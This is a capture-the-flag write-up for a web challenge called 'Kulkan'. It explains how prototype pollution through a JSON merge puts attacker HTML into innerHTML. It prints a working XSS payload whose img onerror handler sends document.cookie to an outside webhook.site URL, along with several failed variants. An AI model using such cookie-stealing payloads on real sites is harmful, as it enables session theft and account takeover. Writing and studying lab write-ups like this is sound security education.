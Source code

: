 Challenge name: Kulkan

Category: Web

Points: 438

Solves: 38+


### Given information

> A Messi compliment engine for Messi fans is here at penetration-testing.com

> Kulkan Security delivers penetration testing and vulnerability assessment services to International markets. Our team of security experts will plan and execute controlled attacks and partner up with your company in an effort to identify, mitigate and remediate security vulnerabilities.

### Solution

User input is to be fed into DOM via `innerHTML`. The value of `randomObject.win` is fed into a `div`'s `innerHTML` and so it must contain the script `<img onerror="fetch('https://webhook.site/abcdef?a='"+document.cookie)" src='x'>`.

`challenge.js`:

```
let randomObject = {};

// ...

let config = JSON.parse(<user input>);

let defaultConfig = { color: "blue", fontSize: "16px" };

mergeObjects(defaultConfig, config); // copies all properties from config to defaultConfig
// defaultConfig["__proto__"] = '{"win" : "xss"}' sets win for every object that exists

// ...

if (randomObject.win) {
    complimentDiv.innerHTML = randomObject.win;
}
```

Like the `Object` class which is the superclass of every class in Java, very JS object inherits the properties of the `__proto__` object. Setting `__proto__`'s  `win` property to the required script automatically includes it in  `randomObject` object.

`console.log(randomObject);` still returns `{}` but `console.log(randomObject.win);` now returns the value of the `win` property contained in `__proto__` instead of `undefined`.


Hence the payload:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<p>hi</p><img onerror=fetch('https://webhook.site/abcdef?a='%2Bdocument.cookie) src=x>"}}
```

`%2B` is "+"

---

**Things that didn't work:**

- input to JSON.parse can't contain backticks or trailing comma like `{"a":1,}`
- backticks substitution like

```
\`https://webhook.site/abcdef?a=${document.cookie}\`
```
- Including all the quotes that are used while testing on console: when sent as a URL param they get encoded, for e.g. during testing

```
JSON.parse('https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<p>hi</p><img onerror=fetch(\'https://webhook.site/abcdef?a=\' + document.cookie) src=\'x\'>"}}');
```
works fine but when sent in URL it turns into

```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<p>hi</p><img onerror=fetch(\\'https://webhook.site/abcdef?a=\\' + document.cookie) src=\\'x\\'>"}}
```

Learnt to use quotes as frugally as possible.
